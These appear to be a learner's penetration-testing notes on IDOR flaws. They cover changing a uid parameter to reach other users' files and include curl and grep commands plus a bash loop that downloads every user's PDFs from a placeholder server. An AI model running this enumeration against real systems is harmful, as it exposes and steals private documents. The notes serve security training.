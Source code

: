 ## Insecure Parameters

**Static File IDOR
```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```
- Filing convention: Document_uid_month_year.pdf
- Change uid to access other users' files

**IDOR
```uid
documents.php?uid=1
```
- Change uid to 2
- if uid_filter is enabled, delete it and you may be able to access all data

## Mass Enumeration
- Burp Intruder
- ZAP Fuzzer

Goal: identify the http link, create a file of potential http links for IDOR, run a bash script or Burp or ZAP
1. [CTRL+SHIFT+C] to inspect page
2. Find something like this:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
3. curl & grep
```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"
```
4. Grep just IDOR
```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```
5. Create script to mass enumerate
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
- Downloads documents from employees 1-10
